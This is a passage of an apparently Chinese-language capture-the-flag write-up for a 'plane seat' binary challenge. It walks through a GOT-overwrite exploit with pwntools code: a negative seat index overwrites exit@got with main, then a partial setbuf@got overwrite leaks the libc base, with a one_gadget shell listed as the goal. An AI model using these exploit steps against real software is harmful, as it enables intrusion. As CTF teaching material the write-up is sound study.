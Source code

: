 ### 攻击步骤
1. 修改 `exit@got` 为 `main` 函数地址，实现程序循环
2. 泄露libc基地址（通过修改 `setbuf@got`）
3. 计算 `one_gadget` 地址
4. 修改 `exit@got` 为 `one_gadget` 地址
5. 触发 `exit` 函数，执行 `one_gadget` 获取shell

## 详细利用过程

### 第一步：修改exit@got为main函数
```python
# 第一步：通过整数溢出修改exit函数的GOT表为main函数
# 这样程序就不会退出，可以多次利用
p.recvuntil(b'Welcome to the plane (0 to 9) please choose seat')

# 输入-6来实现整数溢出，修改exit@got为main
p.sendline(b'-6')

p.recvuntil(b'you can input you name\n')
# 将exit@got修改为main函数地址，实现无限循环
p.send(p64(elf.sym["main"]))
```

**解释**：
- `-6` 是一个负数，会导致整数溢出
- 通过计算偏移，`-6` 对应访问 `exit@got` 的位置
- 我们将 `exit@got` 修改为 `main` 函数地址
- 这样当程序调用 `exit()` 时，实际上会跳转到 `main` 函数，实现程序循环

### 第二步：泄露libc基地址
```python
# 第二步：泄露libc基地址
# 通过修改setbuf@got的最低位来泄露libc地址
p.recvuntil(b'Welcome to the plane (0 to 9) please choose seat')
p.sendline(b'-8')  # 修改setbuf@got

p.recvuntil(b'you can input you name\n')
p.send(p8(0xd0))  # 只修改最低位

# 接收泄露的libc地址
p.recv(13)
libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = libc_leak - libc.sym['setbuf']
```

**解释**：
- `-8` 对应访问 `setbuf@got` 的位置
- 我们只修改 `setbuf@got` 的最低位为 `0xd0`
- 这会改变 `setbuf` 函数的地址，使其指向一个会输出地址的函数
- 通过程序的输出，我们可以获取到泄露的地址
- 用泄露的地址减去 `setbuf` 在libc中的偏移，得到libc基地址
